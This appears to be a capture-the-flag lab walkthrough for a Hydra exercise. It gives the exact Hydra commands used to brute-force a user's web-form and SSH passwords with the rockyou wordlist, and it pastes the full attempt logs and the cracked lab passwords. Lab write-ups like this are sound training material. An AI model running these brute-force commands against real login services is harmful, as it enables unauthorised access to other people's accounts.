 # Hydra
# Date: 25.09.2020

IP: `10.10.189.7`
--------------

1. Use Hydra to bruteforce molly's web password. What is flag 1?
	 - 'hydra -l molly -P /opt/rockyou.txt 10.10.189.7 http-post-form "/login:username=^USER^&password=^PASS^:F=Your username or password is incorrect." -V'

	 ///
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-26 15:54:30
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.189.7:80/login:username=^USER^&password=^PASS^:F=Your username or password is incorrect.
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "password" - 4 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "iloveyou" - 5 of 14344399 [child 4] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "princess" - 6 of 14344399 [child 5] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "1234567" - 7 of 14344399 [child 6] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "rockyou" - 8 of 14344399 [child 7] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "12345678" - 9 of 14344399 [child 8] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "abc123" - 10 of 14344399 [child 9] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "nicole" - 11 of 14344399 [child 10] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "daniel" - 12 of 14344399 [child 11] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "babygirl" - 13 of 14344399 [child 12] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "monkey" - 14 of 14344399 [child 13] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "lovely" - 15 of 14344399 [child 14] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "jessica" - 16 of 14344399 [child 15] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "654321" - 17 of 14344399 [child 5] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "michael" - 18 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "ashley" - 19 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "qwerty" - 20 of 14344399 [child 10] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "111111" - 21 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "iloveu" - 22 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "000000" - 23 of 14344399 [child 6] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "michelle" - 24 of 14344399 [child 7] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "tigger" - 25 of 14344399 [child 8] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "sunshine" - 26 of 14344399 [child 9] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "chocolate" - 27 of 14344399 [child 13] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "password1" - 28 of 14344399 [child 14] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "soccer" - 29 of 14344399 [child 4] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "anthony" - 30 of 14344399 [child 11] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "friends" - 31 of 14344399 [child 15] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "butterfly" - 32 of 14344399 [child 12] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "purple" - 33 of 14344399 [child 5] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "angel" - 34 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "jordan" - 35 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "liverpool" - 36 of 14344399 [child 10] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "justin" - 37 of 14344399 [child 7] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "loveme" - 38 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "fuckyou" - 39 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "123123" - 40 of 14344399 [child 6] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "football" - 41 of 14344399 [child 4] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "secret" - 42 of 14344399 [child 15] (0/0)
[ATTEMPT] target 10.10.189.7 - login "molly" - pass "andrea" - 43 of 14344399 [child 13] (0/0)
[80][http-post-form] host: 10.10.189.7   login: molly   password: sunshine
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-26 15:54:36
	 ///

----------
2. Use Hydra to bruteforce molly's SSH password. What is flag 2?
	 - `hydra -l molly -P /opt/rockyou.txt ssh://10.10.189.7`

	 ///
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-26 15:57:00
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.189.7:22/
[22][ssh] host: 10.10.189.7   login: molly   password: butterfly
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-26 15:57:10

	 ///
